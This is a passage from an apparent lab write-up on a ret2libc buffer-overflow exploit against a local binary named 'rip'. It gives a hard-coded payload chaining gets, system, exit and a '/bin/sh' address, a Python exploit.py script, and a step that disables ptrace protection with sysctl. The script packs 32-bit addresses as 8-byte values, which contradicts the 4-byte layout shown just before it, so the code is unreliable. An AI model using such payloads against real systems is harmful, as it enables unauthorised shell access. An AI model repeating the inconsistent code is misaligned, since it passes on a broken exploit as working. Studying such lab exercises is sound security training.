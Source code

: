 resulting in:

```
b'A'*0x18 + b'BBBB' + gets + pop;ret + address to nullify + system + exit (with a non zero value instead of the null byte) + "/bin/sh" address
```

And changing everything to the actual addresses:

```
#fill buffer,  EBP,         gets         ,         pop;ret ,     address to nullify,        system,      exit (with \xBB instead of \x00),     "bin/sh"
b'A'*0x18 + b'BBBB' + b'\xc0\xaf\xe5\xf7' + b'\xfb\x85\x04\x08' + b'\x2c\xd2\xff\xff' + b'\x50\x68\xe3\xf7' + b'\xBB\xa8\xe2\xf7' + b'\xc8\x97\xf5\xf7'
```

Or, in a python3 script (exploit.py):

```
import sys
import struct
import os

payload = b'A' * 0x18
payload += b'BBBB'
payload += struct.pack("Q", 0xf7e5afc0) # gets
payload += struct.pack("Q", 0x080485fb) # pop ebp;ret
payload += struct.pack("Q", 0xffffd218 + 20) # address to nullify
payload += struct.pack("Q", 0xf7e36850) # system
payload += struct.pack("Q", 0xf7e2a8BB) # exit, with 'BB' instead of null byte
payload += struct.pack("I", 0xf7f597c8) # address to /bin/sh

sys.stdout.buffer.write(payload)

```

Run it by using `./rip $( python3 exploit.py )`.

In `gdb`, this payload gives me a gracefull shutdown when i
exit the shell. However, when running it normally, i get
a `Segmentation Fault` on exit.

Although we can manipulate some settings to make the `gdb`
and the actual environment we will exploit similar, it is
not always enough. A solution to this is to investigate
in the environment we will exploit by attaching `gdb` to
it.

First, run `sudo sysctl -w kernel.yama.ptrace_scope=0`,
this will allow us to attach `gdb` to an already running
processes.

If you run `./rip $( python3 exploit.py )` and don't
type anything, you can go to another window and type
`gdb rip` and press `TAB`. This will autocomplete the
command by inserting the PID number of `rip`, allowing
you to start `gdb` attach to the already running process!
